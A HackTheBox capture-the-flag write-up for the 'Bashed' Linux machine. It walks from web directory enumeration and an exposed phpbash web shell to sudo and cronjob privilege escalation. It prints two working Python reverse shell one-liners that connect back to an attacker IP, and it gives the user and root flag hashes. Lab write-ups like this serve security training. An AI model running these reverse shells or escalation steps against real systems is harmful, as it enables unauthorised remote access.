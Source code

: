 ```yaml
---
title: HackTheBox - Bashed
categories: [HackTheBox, HTB-Linux]
date: 2022-08-21
tags: [linux-priv-esc/cronjob ]
img_path: /Writeups/HackTheBox/Linux/Bashed/images/
image:
  src: Pasted%20image%2020220820050244.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Overview 
This machine begins w/ a web directory enumeration, finding a directory `/dev` directory containing a file `phpbash.php` that has code execution functionality, allowing us to obtain a low-privilege/`www-data` shell.

User `www-data` has a sudoers entry that allows `www-data` to run any command as `scriptmanager`, allowing us to privilege escalate to `scriptmanager`

Further enumeration of the system is done w/ `linpeas.sh`, discovering a directory `/scripts` that contains a python script that we have `RWX` access to. Also, within last 5 minutes a file `/scripts/test.txt` has been modified, suggesting that there is could be a cronjob running, `pspy` is used to confirm that a cronjob is running that executes all python script in `/scripts` directory every minute as root, and by creating a reverse shell python script in `/scripts` directory, it allowed us to privilege escalate to `root`.

---

| Column       | Details |
| ------------ | ------- |
| Box Name     | Bashed  |
| IP           | 10.10.10.68        |
| Points       | -       |
| Difficulty   | Easy    |
| Creator      |  [Arrexel](https://www.hackthebox.com/home/users/profile/2904)       |
| Release Date |   09-Sep-2022      |


# Recon

## TCP/80 (HTTP)
### FFUF
```
dev                     [Status: 301, Size: 306, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 308, Words: 20, Lines: 10]
images                  [Status: 301, Size: 309, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 7743, Words: 2956, Lines: 162]
js                      [Status: 301, Size: 305, Words: 20, Lines: 10]
php                     [Status: 301, Size: 306, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12]
uploads                 [Status: 301, Size: 310, Words: 20, Lines: 10]
:: Progress: [4615/4615] :: Job [1/1] :: 1102 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```
- `/dev`


# Initial Foothold
1. Proceed to `/dev`, `phpbash.php` found
2. `phpbash.php` allows us to execute commands
	![](Pasted%20image%2020220821004357.png)
3. Invoke a reverse shell
	```
	python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	```
4. `www-data`/low-privilege shell obtained
	![](Pasted%20image%2020220821004455.png)
5. User Flag
	```
	61ecdd09b54362a6470b4fc3ccee53ce
	```
	![](Pasted%20image%2020220821004539.png)

# Privilege Escalation

## Script Manager - Via Sudo
1. Check sudo access for `www-data`
	```
	www-data@bashed:/var/www/html$ sudo -l
	Matching Defaults entries for www-data on bashed:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User www-data may run the following commands on bashed:
	    (scriptmanager : scriptmanager) NOPASSWD: ALL
	
	```
	- Able to run any command as `scriptmanager`
2. Obtain `scriptmanager` shell
	```
	sudo -u scriptmanager /bin/bash
	```
![](Pasted%20image%2020220821004942.png)


## Root - Via Cronjob
1. Ran linpeas, found something interesting
	![](Pasted%20image%2020220821010328.png)
	- `/scripts` - we have `write` access
	- `/scripts/test.txt` - modified within last 5minutes
		- Cronjob?
	- `/scripts/test.py` - python script that is writable
2. Sniff processes w/ `pspy`
	![](Pasted%20image%2020220821010538.png)
	- `UID 0` - `root`
	- `/bin/sh -c cd /scripts; for f in *.py; do python "$f"; done ` - is executed every minute as `root`
	- all python scripts in `/scripts` are executed every minute
3. Create python reverse shell script
	```
	scriptmanager@bashed:/scripts$ nano /scripts/exploit.py
	import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
	```
4. Start listener and wait for cronjob to execute to obtain `root` shell
	![](Pasted%20image%2020220821010927.png)
5. Root Flag
	```
	ea8a2ef2a3c75833cd8345e0c866a980
	```
	![](Pasted%20image%2020220821011004.png)
6. View cronjob executed by `root`
	```
	# crontab -l
	* * * * * cd /scripts; for f in *.py; do python "$f"; done
	
	```
